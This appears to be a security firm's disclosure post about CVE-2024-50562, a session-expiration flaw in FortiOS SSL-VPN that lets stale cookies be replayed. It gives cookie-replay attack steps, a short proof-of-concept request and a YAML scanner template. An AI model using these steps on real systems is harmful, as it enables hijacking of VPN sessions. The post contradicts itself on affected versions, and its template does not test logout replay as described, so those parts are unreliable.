 ```yaml
---
title: "Breaking Sessions: The Story of CVE-2024-50562 in Fortinet Web Client"
slug: "cve-2024-50562-fortinet-session-hijack"
date: "2025-06-10"
author: "BugB Security Team"
authorTitle: "Security Researchers"
excerpt: "Explore how an AI-driven red team assessment led to the discovery of CVE-2024-50562—a critical session management flaw in Fortinet's Web Client that enabled persistent session hijacking."
category: "research"
---
```


# Breaking Sessions: The Story of CVE-2024-50562 in Fortinet Web Client

## Summary

An **Insufficient Session Expiration** vulnerability \[CWE-613] in FortiOS SSL-VPN may allow an attacker in possession of a valid VPN cookie to reuse it after logout or natural expiration, gaining unauthorized access to the SSL-VPN portal.

## Affected Versions & Solutions

| Version            | Affected Versions    | Solution                                      |
| ------------------ | -------------------- | --------------------------------------------- |
| **FortiOS 7.6**    | 7.6.0                | Upgrade to **7.6.1 or above**                 |
| **FortiOS 7.4**    | 7.4.0 through 7.4.7  | Upgrade to **7.4.8 or above**                 |
| **FortiOS 7.2**    | 7.2.0 through 7.2.10 | Upgrade to **7.2.11 or above**                |
| **FortiOS 7.0**    | All 7.0.x versions   | Migrate to a fixed release                    |
| **FortiOS 6.4**    | All 6.4.x versions   | Migrate to a fixed release                    |
| **FortiSASE 24.4** | 24.4.b               | Remediated in **24.4.c** – no action required |

> **Note:** Tunnel mode is **not** affected by this issue.

Follow the recommended upgrade path using our tool: [https://docs.fortinet.com/upgrade-tool](https://docs.fortinet.com/upgrade-tool)

## What Is CVE-2024-50562?

CVE-2024-50562 is a critical vulnerability in Fortinet's Web-based VPN client (FortiOS v7.2.8 and prior), where session tokens are never invalidated server-side. Even after logout or expiration, those cookies can be replayed to regain full user access.

### CVSS Severity: 9.4 (Critical)

## Discovery Context

During a red team engagement with Scribetech, our AI-driven offensive framework **Cert-X-Gen** observed:

* Persistent session cookies post-logout
* Successful replay of stale tokens without triggering 401 errors
* Absent server-side expiry or revocation checks

Further testing confirmed a full session hijack was possible with no valid credentials.

## Attack Flow Breakdown

1. **Intercept a Valid Session Cookie** (e.g., via Burp Suite)
2. **Allow the User to Logout or Wait for Expiry**
3. **Replay the Old Cookie** in a new request
4. **Access Restored** – the VPN portal grants full access without prompting for credentials

#### Proof of Concept (Simplified)

```http
POST /remote/logincheck HTTP/1.1
Host: <fortinet-vpn>
Cookie: SVPNCOOKIE=<stale_token>
```

No 401 or invalidation—access persists.

## YAML Detection Template

```yaml
id: cve-2024-50562

info:
  name: Fortinet Web Client Session Hijacking
  author: BugB Security Team
  severity: critical
  description: >
    Fortinet's Web Client (FortiOS v7.2.8 and prior) fails to invalidate session tokens
    upon logout or expiration, allowing unauthorized reuse and session hijacking.
  tags:
    - session-hijack
    - fortinet
    - vpn
    - authentication-bypass
    - ai-discovered
    - cert-x-gen
  reference:
    - https://fortiguard.com/psirt/FG-IR-24-339
    - https://bugb.io/cve-2024-50562
    - https://nvd.nist.gov/vuln/detail/CVE-2024-50562

requests:
  - method: GET
    path:
      - "/remote/login?lang=en"
    matchers:
      - type: status
        status: 
          - 200
      - type: word
        words: 
          - "Fortinet"
          - "VPN"
        condition: and

  - method: POST
    path:
      - "/remote/logincheck"
    headers:
      Content-Type: "application/x-www-form-urlencoded"
    body: "ajax=1&username=test&credential=wrongpass"
    matchers:
      - type: regex
        regex:
          - "redir=.*?hostcheck_install"
        part: body
      - type: word
        words: 
          - "Set-Cookie"
        part: header
    extractors:
      - type: regex
        name: session_cookie
        part: header
        regex:
          - "SVPNCOOKIE=([^;]+);"

  - method: GET
    path:
      - "/remote/hostcheck_install"
    headers:
      Cookie: "SVPNCOOKIE={{session_cookie}}"
    matchers:
      - type: status
        status: 
          - 200
      - type: word
        words: 
          - "Welcome"
          - "SSL VPN"
        condition: or
```

## Role of Cert-X-Gen

Our AI agent combines:

* **Behavioral Fingerprinting** of Fortinet portals
* **Automated Login/Logout Workflows**
* **Cookie Replay Testing**
* **State-Inconsistency Flagging**

It simulates real-world attacker behavior—intelligent adversarial testing, not just passive scanning.

## Timeline

* **March 2025:** Discovery during Scribetech engagement
* **April 2025:** PoC developed and responsibly disclosed to Fortinet PSIRT
* **May 2025:** Fortinet assigns CVE-2024-50562 and prepares advisory
* **June 10, 2025:** PSIRT advisory published (initial publication)

## Acknowledgements

Fortinet thanks **Vang3lis** and **Cyth** from VARAS\@IIE, and **Shahid Parvez Hakim**, CEO & Founder of BugB Technologies (bugb.io), for their responsible disclosure and collaboration.

## Recommended Fixes

* **Upgrade** to fixed releases per the table above (use Fortinet Upgrade Tool)
* **Invalidate** all session tokens immediately upon logout or expiration
* **Implement Strict Expiry Checks** server-side on every request
* **Rotate** tokens on each login and critical actions
* **Monitor & Alert** on any replayed or reused tokens via anomaly detection

---

*CVE-2024-50562 reminds us: session management is your frontline. With AI-led adversarial testing from Cert-X-Gen, you get proactive defense—patch today before an attacker tests your sessions for you.*
